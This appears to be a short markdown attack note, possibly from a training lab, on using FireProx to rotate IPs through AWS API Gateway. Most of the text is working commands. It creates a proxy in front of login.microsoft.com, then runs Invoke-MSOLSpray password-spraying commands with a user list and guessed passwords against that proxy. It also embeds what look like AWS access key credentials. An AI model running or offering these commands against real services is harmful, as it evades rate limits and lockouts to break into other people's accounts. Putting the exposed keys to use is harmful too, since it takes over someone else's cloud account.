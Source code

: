 # API IP Bypass Attack
https://github.com/ustayready/fireprox 


## Setup AWS 
aws_access_key_id = AKIAJQHVNFNMLINIZY6C
aws_secret_access_key = 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

## Check IP 
curl myip.sunsetisp.com 
 
sudo fire.py --command create --url http://myip.sunsetisp.com
	hxxp://lh3lgtgbw6.execute-api.us-east-1.amazonaws.com/
	lh3lgtgbw6

sudo fire.py --command delete --app_id lh3lgtgbw6 


## For reals now 
sudo fire.py --command create --url https://login.microsoft.com

	hxxp://sby997b03t.execute-api.us-east-1.amazonaws.com/
	sby997b03t
	
	Invoke-MSOLSpray -UserList ./email.txt -Password Dodgers2020 -URL hxxp://sby997b03t.execute-api.us-east-1.amazonaws.com/ -OutFile ~/msolspray.txt
	Invoke-MSOLSpray -UserList ./falsimentis-valid-users.txt -Password Mittens2022 -URL hxxp://sby997b03t.execute-api.us-east-1.amazonaws.com/